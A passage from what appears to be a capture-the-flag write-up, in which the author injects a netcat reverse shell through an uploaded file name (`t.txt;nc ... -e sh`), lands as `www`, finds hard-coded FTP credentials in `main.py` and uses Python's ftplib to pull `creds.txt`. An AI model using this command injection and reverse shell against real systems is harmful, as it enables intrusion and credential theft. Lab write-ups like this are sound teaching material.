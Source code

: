 The new, slightly shortened command is `t.txt;nc 168624609 53 -e sh`. It works and I get a shell as `www` on the machine.



![Screenshot of Listener Catching a Shell](/assets/media/tempusfugitdurius/Catching_Shell.png)


I look at the directory that I landed in and see that the web application is mainly based on Python. Catting `main.py` I find some hard coded FTP credentials. 

```python
try:
   ftp = FTP('ftp.mofo.pwn')
   ftp.login('someuser', '<!--Censored-->')
   with open(UPLOAD_FOLDER+"/"+filename, 'rb') as f:
      ftp.storlines('STOR %s' % filename, f)
      ftp.quit()
      os.remove(UPLOAD_FOLDER+"/"+filename)
except:
   flash("Cannot connect to FTP-server")
return redirect('/upload')
```

Unfortunately the server did not have an FTP client installed, so I was required to use the python module `ftplib`, used in the `main.py` file, to connect to the FTP server.

```
bash-4.4$ python                                                                                                                                          
Python 3.6.8 (default, Jan 30 2019, 23:54:38)                                                                                                             
[GCC 6.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from ftplib import FTP
>>> cnct = FTP("ftp.mofo.pwn")
>>> cnct.login("someuser", "<!--Censored-->")
'230 Login successful.'
>>> cnct.retrlines("LIST")
-rw-------    1 ftp      ftp            24 Apr 22  2020 creds.txt
-rw-------    1 ftp      ftp             0 Oct 23 21:57 test.txt;echo $SHELL
-rw-------    1 ftp      ftp             0 Oct 23 21:52 test.txt;id
-rw-------    1 ftp      ftp             0 Oct 23 21:58 test.txt;nc --help
'226 Directory send OK.'
>>> localfile = open('creds.txt', 'wb')
>>> cnct.retrbinary('RETR ' + 'creds.txt', localfile.write, 1024)
'226 Transfer complete.'
>>> exit()
```

